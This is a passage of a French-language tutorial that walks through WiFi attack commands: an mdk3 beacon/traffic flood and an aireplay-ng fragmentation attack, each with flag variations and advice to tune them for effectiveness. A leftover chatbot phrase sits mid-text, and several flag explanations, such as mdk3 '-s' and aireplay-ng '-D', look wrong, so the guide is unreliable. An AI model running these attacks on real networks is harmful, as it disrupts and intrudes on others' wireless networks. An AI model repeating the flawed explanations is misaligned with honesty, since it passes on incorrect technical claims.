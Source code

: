 ```bash
sudo mdk3 wlan0mon b -n <nombre_de_paquets> -g <puissance_d_injection>
```

- `-g <puissance_d_injection>` : spécifie la puissance d'injection (augmentez ou diminuez selon les besoins).

#### 4.4.2 Utilisation d'une liste de cibles

```bash
sudo mdk3 wlan0mon b -n -s <liste_de_cibles.txt>
```

- `-s <liste_de_cibles.txt>` : spécifie un fichier texte contenant une liste d'adresses MAC de cibles.

#### 4.4.3 Utilisation de plusieurs cartes WiFi

```bash
sudo mdk3 wlan0mon wlan1mon wlan2mon b -n <nombre_de_paquets>
```

Ces paramètres supplémentaires offrent des options pour ajuster le comportement de l'injection de trafic avec mdk3 en fonction de vos besoins spécifiques et des conditions du réseau.

Bien sûr, voici le chapitre "4.5 Attaque de fragmentation avec aireplay-ng" avec des détails sur chaque paramètre :

### 4.5 Attaque de fragmentation avec aireplay-ng

```bash
sudo aireplay-ng -5 -b <BSSID> -h <votre_adresse_mac> wlan0mon
```

#### 4.5.1 Ajustement du nombre de paquets par seconde

```bash
sudo aireplay-ng -5 -b <BSSID> -h <votre_adresse_mac> -p <paquets_par_seconde> wlan0mon
```

- `-p <paquets_par_seconde>` : spécifie le nombre de paquets par seconde à envoyer (augmentez ou diminuez selon les besoins).

#### 4.5.2 Utilisation d'une carte spécifique

```bash
sudo aireplay-ng -5 -b <BSSID> -h <votre_adresse_mac> -p <paquets_par_seconde> -i <votre_carte>
```

- `-i <votre_carte>` : spécifie votre interface WiFi.

#### 4.5.3 Personnalisation du délai entre les paquets

```bash
sudo aireplay-ng -5 -b <BSSID> -h <votre_adresse_mac> -p <paquets_par_seconde> -D wlan0mon
```

- `-D` : ajoute un délai de 1 seconde entre les paquets de déauthentification.

Ces paramètres supplémentaires vous permettent d'ajuster l'attaque de fragmentation en fonction de vos besoins spécifiques et des conditions du réseau. Expérimentez avec ces paramètres pour optimiser l'efficacité de l'attaque.
